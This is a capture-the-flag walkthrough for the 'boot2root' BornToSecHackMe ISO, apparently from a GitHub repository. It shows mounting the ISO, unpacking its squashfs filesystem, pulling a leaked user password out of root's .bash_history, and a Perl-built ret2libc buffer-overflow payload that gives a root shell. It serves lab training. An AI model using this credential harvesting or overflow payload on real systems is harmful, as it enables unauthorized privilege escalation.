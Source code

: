 # ISO file exploration

## Step 1. Mount ISO file

```
┌──(kali㉿kali)-[~/boot2root]
└─$ sudo mkdir /mnt/iso
┌──(kali㉿kali)-[~/boot2root]
└─$ sudo mount BornToSecHackMe-v1.1.iso /mnt/iso
mount: /mnt/iso: WARNING: source write-protected, mounted read-only.
```
Since we are given an ISO file to exploit, we can just mount it to see what's inside there.

## Step 2. Extract filesystem

```
┌──(kali㉿kali)-[~/boot2root]
└─$ sudo unsquashfs -d ./fs /mnt/iso/casper/filesystem.squashfs
Parallel unsquashfs: Using 2 processors
61188 inodes (56421 blocks) to write

[===========================================================================/] 56421/56421 100%

created 54391 files
created 8445 directories
created 6743 symlinks
created 2 devices
created 2 fifos
created 28 sockets

┌──(kali㉿kali)-[~/boot2root]
└─$ sudo chown -R kali:kali fs
```
After mounting the ISO file, we found a file `filesystem.squashfs` which is a compressed read-only file system for Linux. `unsquashfs` tool can be used to extract the whole filesystem.

## Step 3. Explore filesystem

```
──(kali㉿kali)-[~/boot2root/fs/root]
└─$ grep -A 1 adduser .bash_history
[...]
adduser zaz
646da671ca01bb5d84dbb5fb2238dc8e
[...]
```
Now we can access all the files of the system including files in the `/root`. By inspecting `.bash_history` of root user, we found that root user accidentally typed zaz's password twice when executing `adduser`.

## Step 4. SSH zaz

```
zaz@BornToSecHackMe:~$ ./exploit_me `perl -e 'print "A"x140 . pack("V", 0xb7e6b060) . pack("V", 0xb7e5ebe0) . pack("V", 0xb7f8cc58)'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`�����X��
# whoami
root
```
With the SSH password of `zaz`, we can exploit the system just like the final step of writeup1.
